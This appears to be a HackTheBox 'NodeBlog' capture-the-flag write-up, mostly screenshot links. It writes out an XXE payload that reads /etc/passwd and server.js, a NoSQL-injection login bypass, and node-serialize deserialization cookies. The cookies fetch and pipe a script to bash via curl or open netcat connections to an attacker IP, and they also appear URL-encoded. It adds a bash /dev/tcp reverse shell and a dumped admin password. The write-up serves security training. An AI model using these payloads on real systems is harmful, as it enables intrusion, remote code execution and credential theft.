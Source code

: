 # nmap 
## nmap all ports
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/nmap%20%20all%20ports.png)

## nmap services and versions
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/nmap%20services%20and%20versions.png)

# domain
## main page
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/main%20page.png)

# login
## invalid username
![](login%20invalid%20username.png)

## valid username: admin
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/login%20invalid%20username.png)

# burp login intercept
![](burp%20login.png)
## nosqli payload in burp --> bypass login
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/burp%20nosqli%20login%20bypass.png)

## login dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/domain%20login%20dashboard.png)

## wrong payload --> error messages --> new endpoint
##  burp request
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/burp%20request.png)

## burp response
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/burp%20response.png)
## new path:
### paths cant be accesed
````
/opt/blog/node_modules/raw-body/index.js
/opt/blog/node_modules/body-parser/lib/types/json.js
````

## common nodejs files
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/root%20path.png)

## XXE file upload
````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
 <post>
 <title> Post</title>
 <description>desc</description>
 <markdown>&file;</markdown>
 </post>

`````

## XXE succesfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/XXE%20succusfull.png)

## read /opt/blog/server.js
````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
 <post>
 <title> Post</title>
 <description>desc</description>
 <markdown>&file;</markdown>
 </post>

`````

## server.js file succesfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/succesfull%20read%20server.js.png)

## server.js snippet
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/server.js%20snippet.png)

## node-serialize vulnerability search
![](search%20for%20node-serialize.png)

![](node-serialize%20rce.png)

## node-serialize payload
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/node-serialize%20payload%20raw.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/node-serialize%20rce.png)

## final payload
````
Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"nc 10.10.14.5 9001\", function(error, stdout, stderr) { console.log(stdout) });}()"}

Cookie: auth={"user":"admin","sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"nc 10.10.14.5 9001\", function(error, stdout, stderr) { console.log(stdout) });}()"}

Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"curl 10.10.14.5:5000 | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}


`````

## burp send final payload url encoded
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/burp%20succesful%20payload.png)

## cookie test payload url encoded
````
%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%6e%63%20%31%30%2e%31%30%2e%31%34%2e%35%20%39%30%30%31%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d


`````

## cookie reverse shell url encoded
````
%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%35%3a%35%30%30%30%20%7c%20%62%61%73%68%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d

`````

## succesfull shell
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/admin%20shell.png)
## payload
````
Cookie: auth=%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%35%3a%38%30%30%30%20%7c%20%62%61%73%68%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d

Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"curl 10.10.14.5:8000 | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}





`````

## serve malicious index.html file
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

## user.txt
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/admin%20folder%20permission%20denied.png)

## mongodb database
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/server.js%20mongodb%20path.png)
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/dump%20mongodb%20database.png)

## mongodump
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/mongodump%20result.png)

### creds
````
admin:IppsecSaysPleaseSubscribe

`````

## root shell
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/root%20shell.png)

XXXXXXXXX
